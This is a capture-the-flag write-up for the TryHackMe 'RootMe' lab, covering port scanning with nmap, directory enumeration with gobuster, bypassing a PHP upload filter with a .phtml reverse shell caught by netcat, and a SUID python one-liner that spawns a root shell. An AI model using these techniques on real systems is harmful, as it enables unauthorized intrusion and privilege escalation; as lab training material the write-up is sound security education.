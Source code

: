 ```yaml
---
layout: article
title: RootMe CTF
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://res.cloudinary.com/practicaldev/image/fetch/s--J4tkVXTj--/c_imagga_scale,f_auto,fl_progressive,h_420,q_auto,w_1000/https://dev-to-uploads.s3.amazonaws.com/uploads/articles/kqqova632hnzjav20vx5.png
permalink: /writeups/rootme
tags:
- TryHackMe
- Write-Up
---
```


## Reconnaissance
First of all, we start with a little scan to discover services and technology about target.

TCP SYN SCAN --> [https://nmap.org/book/synscan.html](https://nmap.org/book/synscan.html)

`sudo nmap -sS <IP ADDRESS> -p-`

This may take few minutes because we are scanning all TCP ports.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:44 CEST
Nmap scan report for 10.10.8.205
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 100.80 seconds
```

Ports 22 and 80 are open. We can navigate the website.

To find Apache version, launch the following command:
`sudo nmap -sV <IP ADDRESS> -p 80`

Web server folders enumeration using `gobuster`:
`gobuster dir -u http://<IP ADDRESS> -w /usr/share/wordlists/dirb/big.txt`

We have found */panel* folder.

## Getting a shell
We can upload files by the panel section of the website.
Upload this php reverse shell: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
The website doesn't accept php file extension, so we have to bypass the file name. 
We can assign a *phtml* extension to the reverse shell file. 
- ***.phtml*** extension are **most commonly associated with PHP Web pages**. The PHTML files contain PHP code that is parsed by a PHP engine. This allows the Web server to generate dynamic HTML that is displayed in a Web browser.
Moreover we have to change ip address and port in the file.
We just have to upload the reverse shell, use *netcat* to open a listening connection on our machine and execute the file via web browser.
Et voilà, we have a shell.

## Privilege escalation
First of all we search for files with SUID permission.

`find / -user root -perm /4000 2>/dev/null`

Now we have list of all files that can be executed like root from other users.
We find */usr/bin/python*...
Maybe we can execute python to obtain a root shell.

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
-  [https://gtfobins.github.io/gtfobins/python/#suid](https://gtfobins.github.io/gtfobins/python/#suid)

